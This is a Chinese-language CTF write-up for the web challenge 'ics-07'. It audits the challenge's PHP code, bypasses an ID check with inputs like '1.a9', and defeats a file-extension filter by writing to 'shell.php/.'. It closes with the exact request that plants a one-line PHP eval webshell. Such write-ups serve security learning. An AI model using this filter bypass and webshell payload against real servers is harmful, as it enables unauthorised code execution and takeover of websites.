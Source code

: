 ```yaml
---
layout:     post               # 使用的布局（不需要改）
title:      ics-07   # 标题 
subtitle:    攻防世界  #副标题
date:       2020-07-31       # 时间
author:     yanmie             # 作者
header-img: img/.jpg    ##标签这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               
    - CTF
  
--- 
```


web题扫描目录有时很重要。

![aQaW0s.png](https://s1.ax1x.com/2020/07/31/aQaW0s.png)

有个flag.php,一看就是放flag的地方。

有事熟悉的界面，只有一个地方可以点。

![aQdyU1.png](https://s1.ax1x.com/2020/07/31/aQdyU1.png)

点进来之后，

![aQdTUI.png](https://s1.ax1x.com/2020/07/31/aQdTUI.png)

这里的`view-source`,我还以为就是源代码,右键源代码啥也没有，回来点了一下这里，进去发现有后端php代码。看看路径，是一个php文件。。。

**第一处php代码：**

```
<?php
    session_start();

    if (!isset($_GET[page])) {
      show_source(__FILE__);
      die();
    }

    if (isset($_GET[page]) && $_GET[page] != 'index.php') {
      include('flag.php');
    }else {
      header('Location: ?page=flag.php');
    }

?>

```

审计代码，

首先如果没有传入一个`page`参数值，页面就会显示源码，但是，`index.php`直接302 重定向到了`?page=flag.php`/

如果接收到了`page`值，并且不等于`index.php`,就include包好flag.php,但去看看，没flag,如果不等于就跳转到`?page=flag.php`.

这处没啥利用价值。看下一处。

**第二处php代码：**

```
<?php
     if ($_SESSION['admin']) {
       $con = $_POST['con'];
       $file = $_POST['file'];
       $filename = "backup/".$file;

       if(preg_match('/.+\.ph(p[3457]?|t|tml)$/i', $filename)){
          die("Bad file extension");
       }else{
            chdir('uploaded');
           $f = fopen($filename, 'w');
           fwrite($f, $con);
           fclose($f);
       }
     }
?>
```

* `chdir()` 函数改变当前的目录。所以说我们上传的文件在`uploaded/backup/`目录
* 正则表达式过滤掉了`php、php3、php4、php5、php7、pht、phtml`,/i参数设置大小写不敏感。

这里如果`session`值等于`admin`。就接收两变量，如果调整过正则，就写文件。这里或许就是一个切入点，但是session的值是在服务端，不是我们可以控制的。在看下一处

**第三处php代码：**

```
<?php
      if (isset($_GET[id]) && floatval($_GET[id]) !== '1' && substr($_GET[id], -1) === '9') {
        include 'config.php';
        $id = mysql_real_escape_string($_GET[id]);
        $sql="select * from cetc007.user where id='$id'";
        $result = mysql_query($sql);
        $result = mysql_fetch_object($result);
      } else {
        $result = False;
        die();
      }

      if(!$result)die("<br >something wae wrong ! <br>");
      if($result){
        echo "id: ".$result->id."</br>";
        echo "name:".$result->user."</br>";
        $_SESSION['admin'] = True;
      }
?>
```

* floatval — 获取变量的浮点值,返回变量的 float 数值。 
* 这里用的`!==`，所以类型也要比较，后变为字符串string，前面为数值float,所以肯定不相等。这里不许考虑太多。
* substr — 返回字符串的子串。

```
substr ( string $string , int $start [, int $length ] ) : string

返回字符串 string 由 start 和 length 参数指定的子字符串。 

 如果 start 是非负数，返回的字符串将从 string 的 start 位置开始，从 0 开始计算。例如，在字符串 “abcdef” 中，在位置 0 的字符是 “a”，位置 2 的字符串是 “c” 等等。

如果 start 是负数，返回的字符串将从 string 结尾处向前数第 start 个字符开始。

如果 string 的长度小于 start，将返回 FALSE。 
```

所以第三个条件得满足倒数第一个字符是9，所以随便`1.9`，就可以满足啦。暂且继续往下看

这里对数据库进行了查询操作，并对值进行转义。

如果没查到值，就直接die结束运行，这里关键是`where id='$id'`,一般可能id从1开始，那么我们前面传入的`1.9`肯定不满足啦。

想想办法纪要满足上面也要满足下面。

![aQyZqO.png](https://s1.ax1x.com/2020/07/31/aQyZqO.png)

可以看到这样肯定不行的，因为谁家的id会搞成这样。

![aQyGsf.png](https://s1.ax1x.com/2020/07/31/aQyGsf.png)

！！！可以看到多加几颗0，他就可以查到id是1的内容了。这应该是精度问题导致后边的9缺失了。

当然这里还可以这样绕过`1.a9`。

继续往下看，这里条件都能满足后，数据库也能查出内容之后，`session`变为了admin,恰好斜街了第二部分的php代码那块。

第二部分就是要绕过正则传入一个php马了。

他这里文件后置过滤的很严，上传php1、php2等不会当成php解析。

想到上传`.hatecess`或者`.usr.ini`，但是上传不上去，可能做了限制，上传`1.hatescess`等又能上传上去，但是这样没效果。

大小写这里当然也不行。

很尴尬，去搜了下wp.

这里利用了一个Linux的目录结构特性 , 看看下面的测试

```
<?php
$f = fopen('a.php/.', 'w');
fwrite($f,' ok');
fclose($f);
```

访问此php,那么就会在到当前目录下生成`aaa.php`并且写入`ok`内容。

**正则的话是判断.之后的字符，因此我们可以利用/.的方式绕过，这个方式的意思是在文件名目录下在加个空目录，相当于没加，因此达到绕过正则的目的。**

还可以

```
<?php
$f = fopen('c.php/b.php/..', 'w');
fwrite($f,' ok');
fclose($f);
```

我们都知道linux目录文件夹每个目录下面都有`.`和`..`,隐藏文件。

其中 .. 代表当前目录的父目录 , .代表当前目录，所以这里的`c.php/b.php/..`也就是访问b.php的父目录，也就是 c.php 

所以这就好办了，直接上传php 马即可。

url :  `/index.php?page=1.php&id=1.a9`

post数据： `file=shell.php/.&con=<?php eval($_POST[a]); ?>`

生成的文件在`uploaded/backup/`目录下。这里还让列目录了。

下面的操作就不说了，访问页面传数据拿flag。

蚁剑等连接直接看文件也行。